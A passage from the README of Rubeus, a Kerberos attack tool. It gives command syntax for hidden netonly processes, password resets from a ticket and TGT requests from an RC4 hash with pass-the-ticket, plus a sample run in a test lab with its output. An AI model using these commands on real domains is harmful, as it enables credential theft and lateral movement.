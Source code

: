 
    Miscellaneous:

        Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
            Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]

        Reset a user's password from a supplied TGT (AoratoPw):
            Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER]


    NOTE: Base64 ticket blobs can be decoded with :

        [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))


## asktgt

The **asktgt** action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4 or /aes256). A /password flag can also be used instead of a hash. If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:X flag will apply the ticket to the specified logon session ID (elevation needed).

Note that no elevated privileges are needed on the host to request TGTs or apply them to the **current** logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the **/createnetonly:X** parameter, or request the ticket and apply it to another logon session with **ptt /luid:X**.

    c:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1537 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
        ...(snip)...
